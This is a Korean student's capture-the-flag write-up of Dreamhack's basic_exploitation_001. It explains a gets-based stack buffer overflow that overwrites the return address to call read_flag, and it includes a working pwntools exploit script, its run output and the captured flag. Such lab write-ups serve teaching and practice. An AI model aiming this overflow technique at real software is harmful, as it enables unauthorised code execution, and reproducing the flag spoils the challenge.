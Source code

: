 # basic_exploitation_001 파일의 분석 보고서
## 로직
main 함수에서 128byte짜리 buf를 선언하고 initialize 함수 호출,
버퍼의 크기를 0으로 설정함으로써 버퍼를 없애고 signal 함수를 통해 알람이 울리면 alarm_handler 함수가 호출되도록 한다.
30초 알람을 설정하고, 30초가 지나면 alarm_handler 함수에서 "TIME OUT"이라는 문자를 출력한 뒤 프로그램은 종료된다.

## Flag 획득 방법
read_flag 함수 안에 shell 명령어로 root에 저장되어 있는 flag 파일을 출력하는 방식으로 보인다.
그러므로 read_flag 함수를 실행시켜야 하는데 read_flag 함수를 호출하는 문은 없으니 강제로 실행시켜야 할 거 같다.

## 문제 풀이 계획
main 함수에서 선언된 지역변수 buf는 128byte이다. 
gets 입력을 통해 128byte + SFP(4byte)를 넘겨 입력한다면, RET 값을 변경할 수 있다.
반환될 주소 값으로 read_flag 함수의 메모리 주소를 넘겨준다면, flag를 출력할 것으로 예상된다.

## 문제 풀이
i fu 명령어를 사용해 함수 목록을 불러온다.
```
All defined functions:

Non-debugging symbols:
0x08048398  _init
0x080483d0  gets@plt
0x080483e0  signal@plt
0x080483f0  alarm@plt
0x08048400  puts@plt
0x08048410  system@plt
0x08048420  exit@plt
0x08048430  __libc_start_main@plt
0x08048440  setvbuf@plt
0x08048460  _start
0x08048490  __x86.get_pc_thunk.bx
0x080484a0  deregister_tm_clones
0x080484d0  register_tm_clones
0x08048510  __do_global_dtors_aux
0x08048530  frame_dummy
0x0804855b  alarm_handler
0x08048572  initialize
0x080485b9  read_flag // Flag 출력 함수
0x080485cc  main
0x080485f0  __libc_csu_init
0x08048650  __libc_csu_fini
0x08048654  _fini
```
우리는 RET 값을 조작해 read_flag 함수를 호출해야 되니, read_flag 함수의 메모리 주소 '0x080485b9'를 복사해준다.

수업 시간에 배운 Pwntools를 이용해 서버에 요청을 보내는 Python 파일을 작성해보겠다.
```
from pwn import *

p = remote("host3.dreamhack.games", 10751)

text = "\x90"*132
text += p32(0x080485b9)

p.sendline(text)
p.interactive()
```
pwntools를 import 하고, NOP로 버퍼와 SFP를 채우는 문자를 작성하고, 
그 뒤 리틀엔디안 패킹 방식으로 read_flag 함수의 메모리 주소를 전달하기 위해 p32 함수를 이용하여 메모리 주소를 적어준다.
sendline 함수로 작성한 텍스트를 전송하고, Interactive 모드로 전환한다.

그 후 실행하면...
```
root@479ffb30c31c:~/cyber_guardians-pwnable/220924_Homework/2. Dreamhack# python DH_pwn.py
[+] Opening connection to host3.dreamhack.games on port 10751: Done
[*] Switching to interactive mode
DH{01ec06f5e1466e44f86a79444a7cd116}[*] Got EOF while reading in interactive
```
Flag가 출력되는 것을 볼 수 있다.

## 알게 된 내용
### 스택의 기본 구조
스택은 Buffer + SFP(4byte) + RET(4byte)로 구성된다.

#### Buffer
버퍼는 데이터가 저장되는 공간이다.

#### SFP
SFP는 스택 베이스 값을 뜻한다.
스택 주소값을 계산, 현재 스택값을 기준으로 할 때 필요한 프레임 포인터의 값을 저장한다.

#### RET
RET은 Return의 약자로 다음에 실행해야 할 명령이 존재하는 메모리 주소를 가지고 있다.
그러므로 RET에 있는 메모리 주소를 변경하게 된다면, 원하는 명령을 실행할 수 있다.

## 여담
파이썬 파일의 이름을 pwn.py로 했다가
```
NameError: name 'remote' is not defined
```
remote가 정의되지 않았다는 오류를 엄청나게 보았는데, 
나는 멍청하게 패키지를 왜 못 불러오지..?' 라는 생각만 했다. ㅋㅋㅋ

그래서 패키지 업데이트도 해보고 파이썬 버전도 바꿔봤는데 계속 오류가 났다.
그 후, Stackoverflow를 뒤지다가 나 같은 사람이 작성한 글을 보게 되었다.

"아.. 내 파이썬 파일 이름이 pwn 이구나.."